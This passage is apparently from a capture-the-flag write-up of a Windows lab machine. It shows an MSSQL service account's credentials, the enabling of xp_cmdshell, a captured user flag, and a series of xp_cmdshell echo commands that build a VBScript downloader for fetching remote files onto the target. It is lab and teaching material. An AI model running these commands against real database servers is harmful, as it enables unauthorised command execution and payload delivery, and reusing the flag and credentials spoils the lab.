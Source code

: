 ```
MSSQL-SVC
corporate568
```

Now we login as `mssql-svc`, which gives access to `xp_cmdshell`.

Enabling `xp_cmdshell`

- `enable_xp_cmdshell`
- `reconfigure`

Now we can easily read `user.txt`

`xp_cmdshell type c:\users\mssql-svc\Desktop\user.txt`

```
c37b41bb669da345bb14de50faab3c16
```

### Getting Root

It's nice just reading `user.txt`, but life is going to be really difficult if we cant get a shell of some sort.

I also wanted to try a different form of file download besides just powershell, just for practice. I found this trick for file transfer from [this blog post](https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97) by hakluke.

File Transfer here's the series of commands that I used to build `wget.vbs`

```
xp_cmdshell echo strUrl = WScript.Arguments.Item(0) > %TMP%\wget.vbs
xp_cmdshell echo StrFile = WScript.Arguments.Item(1) >> %TMP%\wget.vbs
xp_cmdshell echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> %TMP%\wget.vbs
xp_cmdshell echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> %TMP%\wget.vbs
xp_cmdshell echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> %TMP%\wget.vbs
xp_cmdshell echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> %TMP%\wget.vbs
xp_cmdshell echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> %TMP%\wget.vbs
xp_cmdshell echo Err.Clear >> %TMP%\wget.vbs
xp_cmdshell echo Set http = Nothing >> %TMP%\wget.vbs
xp_cmdshell echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> %TMP%\wget.vbs
xp_cmdshell echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> %TMP%\wget.vbs
xp_cmdshell echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> %TMP%\wget.vbs
xp_cmdshell echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> %TMP%\wget.vbs
xp_cmdshell echo http.Open "GET", strURL, False >> %TMP%\wget.vbs
xp_cmdshell echo http.Send >> %TMP%\wget.vbs
xp_cmdshell echo varByteArray = http.ResponseBody >> %TMP%\wget.vbs
xp_cmdshell echo Set http = Nothing >> %TMP%\wget.vbs
xp_cmdshell echo Set fs = CreateObject("Scripting.FileSystemObject") >> %TMP%\wget.vbs
xp_cmdshell echo Set ts = fs.CreateTextFile(StrFile, True) >> %TMP%\wget.vbs
xp_cmdshell echo strData = "" >> %TMP%\wget.vbs
xp_cmdshell echo strBuffer = "" >> %TMP%\wget.vbs
xp_cmdshell echo For lngCounter = 0 to UBound(varByteArray) >> %TMP%\wget.vbs
xp_cmdshell echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> %TMP%\wget.vbs
xp_cmdshell echo Next >> %TMP%\wget.vbs
xp_cmdshell echo ts.Close >> %TMP%\wget.vbs
```
